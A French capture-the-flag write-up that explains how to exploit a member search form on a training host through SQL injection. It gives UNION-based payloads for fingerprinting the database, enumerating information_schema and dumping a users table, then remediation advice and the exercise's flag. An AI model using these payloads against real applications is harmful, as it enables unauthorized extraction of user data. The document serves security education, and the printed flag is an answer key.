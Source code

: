 # Procédure GET THE IMAGE FLAG WITH SQL INJECTION

1. Repérer les points d'entrée vulnerables:   
    Formulaire recherche de membre [Formulaire](http://ip_darkly?page=member) `http://ip_darkly?page=member`
2. Récupérer l'empreinte du SGBD:   
    Détection par erreur + injection sql version() -> MariaDB
    ```
    ip_darkly/index.php?page=member&Submit=Submit&id=1 UNION SELECT 1, version() limit 1,1
    ```
3. Récupérer le nombres de colonnes max auquel l'injection SQL devra se référer:
   (n est le nombre à tester)
    ```
    ip_darkly/index.php?page=member&Submit=Submit&id=1 ORDER BY n
    ```
4. Récupérer le nom des tables accessibles à l'utilisateur
    ```
    ip_darkly/index.php?page=member&Submit=Submit&id=1 and 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables
    ```
5. Récupérer le nom des colonnes qui nous interesse
    ```
    ip_darkly/index.php?page=member&Submit=Submit&id=1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
    ```
6. Injecter plusieur requetes SQL pour recuperer toutes les lignes de la table Member_Sql_Injection.users. La dernière colonne de chaque ligne recèle un message nous étant destiné et qu'il faut reconstituer. La dernière colonne de la dernière ligne contient le flag à décrypter depuis du md5 et à encoder en SHA256
    ``` shell
    ip_darkly/index.php?page=member&Submit=Submit&id=1 AND 1=2 UNION SELECT user_id, comment FROM Member_Sql_Injection.users
    ```

# Comment s'en prémunir

- Parser les inputs utilisateurs et échapper tout caractère spécial
- Répondre aux erreurs de SGBD avec des erreurs personnalisées en laissant peu
  d'indication sur l'erreur en cours afin de ne pas aiguiller un attaquant sur
  ce qui peut être vulnérable
- Utiliser les `parametrized query` offertes par les différents frameworks/API de
  développement (PDO...). NEVER TRUST INPUT USER. Ne jamais passer telle quelle une
  valeur récupérée d'une saisie utilisateur à une requête SQL.

## Pour plus d'informations:  
[WSTG-INPV-05](https://github.com/clallier94/wstg-translation-fr/blob/main/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection.md)   

## Flag
```text
fe0ca5dd7978ae1baae2c1c19d49fbfbb37fe7905b9ad386cbbb8206c8422de6
```
